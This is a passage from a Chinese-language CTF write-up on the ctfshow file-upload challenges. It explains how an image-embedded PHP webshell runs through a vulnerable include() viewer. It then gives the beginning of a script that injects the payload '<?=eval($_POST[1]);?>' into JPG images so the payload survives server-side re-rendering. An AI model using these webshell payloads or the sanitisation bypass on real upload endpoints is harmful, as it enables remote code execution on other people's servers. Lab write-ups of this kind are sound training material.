 ![success](https://the0n3.top/medias/show-upload/21.png)

这里执行命令看不到结果，可以下载图片，Notepad++打开看图片内容，命令执行回显在图片里，也可以直接把flag输出到新文件里

![tac](https://the0n3.top/medias/show-upload/22.png)

![flag](https://the0n3.top/medias/show-upload/23.png)


疑惑：这题的图片为什么会解析PHP代码？

```php
$file= $_GET['image'];

$file = strrev($file);
$ext = strrev(substr($file, 0,4));
if($ext==='.png' && file_exists("./upload/".strrev($file))){
	header('Content-Type:image/png');
	include("./upload/".strrev($file));
}else{
	echo "图片错误";
}
```
在这个查看图片的页面使用了include文件包含，通过Get传参来包含指定文件，但有限制了目录，所以似乎不能日志包含等等操作

## web 165 jpg二次渲染

参考：

- [ctfshow web入门文件上传](https://www.cnblogs.com/sen-y/p/15579078.html#autoid-11-0-0)
- [CTFshow-文件上传](https://happyfire.xyz/archives/ctfshow--wen-jian-shang-chuan#toc-head-15)
- [ctfshow学习记录-web入门（文件上传161-170）](https://blog.csdn.net/m0_48780534/article/details/126723967#web165_160)

:::warning
jpg二次渲染图片马不能靠脚本直接生成，你需要先上传原图，再ctrl+s把渲染后的图片再保存下来，现在你才可以使用下面脚本再次渲染

此处驻留甚久，告之后来者
:::

把网站渲染过一次的图片保存下来，使用下面脚本再次渲染

jpg二次渲染脚本

```php
<?php
    /*
将有效载荷注入JPG图像的算法，该算法在PHP函数imagecopyresized()和imagecopyresampled()引起的变换后保持不变。
初始图像的大小和质量必须与处理后的图像的大小和质量相同。
1)通过安全文件上传脚本上传任意图像
2)保存处理后的图像并启动:
php 文件名.php <文件名.jpg >
如果注射成功，您将获得一个特制的图像，该图像应再次上传。
由于使用了最直接的注射方法，可能会出现以下问题:
1)在第二次处理之后，注入的数据可能变得部分损坏。
jpg _ payload.php脚本输出“有问题”。
如果发生这种情况，请尝试更改有效载荷(例如，在开头添加一些符号)或尝试另一个初始图像。
谢尔盖·博布罗夫@Black2Fan。
另请参见:
https://www . idontplaydarts . com/2012/06/encoding-we B- shell-in-png-idat-chunks/
*/

    $miniPayload = '<?=eval($_POST[1]);?>';
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
```